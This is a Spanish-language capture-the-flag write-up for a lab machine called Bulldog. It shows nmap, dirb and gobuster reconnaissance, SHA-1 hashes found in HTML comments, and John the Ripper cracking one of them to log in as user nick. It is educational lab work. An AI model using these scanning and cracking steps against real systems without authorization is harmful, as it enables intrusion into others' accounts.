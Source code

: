 # Machine Bulldog

## Informtion Gathering

1. Primero realizo un escaneo de puerto asi:

```
$ nmap -sV 212.83.175.138
``` 
2. El resultado es el siguiente:

```
PORT     STATE SERVICE VERSION
23/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2
80/tcp   open  http    WSGIServer 0.1 (Python 2.7.12)
8080/tcp open  http    WSGIServer 0.1 (Python 2.7.12)
```

## Analisis de vulnerabilidades

- Luego ejecute **Dirb** de esta manera
```
$ dirb http://212.83.175.138:80
```
- El resultado que me genero son varias URL y la mas importante es esta
```
http://212.83.175.138:80/admin/
http://212.83.175.138:80/dev/
http://212.83.175.138:80/dev/shell/
```
- ya que contiene la URL del panel admin
- Ejecute tambien **Dirb** en el puerto 8080 y el resultado fue el mismo que el del puerto 80
- Tambien ejecute **Gobuster**
```
$ gobuster dir -u http://212.83.175.138/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```
- El resultado de **Gobuster** es este:
```
/admin (Status: 301)
/dev (Status: 301)
/robots.txt (Status: 200)
/notice (Status: 301)
```

## Exploiting

- Probe el puerto **80** y tenia como con una pagina sencilla
- Entonces use el directorio **/dev** que obtuve con **Dirb** y es una pagina con la configuracion y correos de varios usuarios
- Luego ingreso al directorio **/dev/shell** pero tengo que estar autenticado para usarlo
- Reviso el codigo fuente de todas las paginas que encontre y solo la pagina dentro del directorio **/dev** tiene algo muy interesante y son HASH
```
Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->
```
- Utilizo el **hash-identifier** para ver de ue tipo de HASH son y es de SHA-1
- Luego uso **John the ripper** para decifrar el HASH de esta manera:
```
$ sudo john hash.txt --format=Raw-SHA1
```
- Me genero una contraseña y es **bulldog** así que la probe con varios usuarios y funciono con el usuario **nick**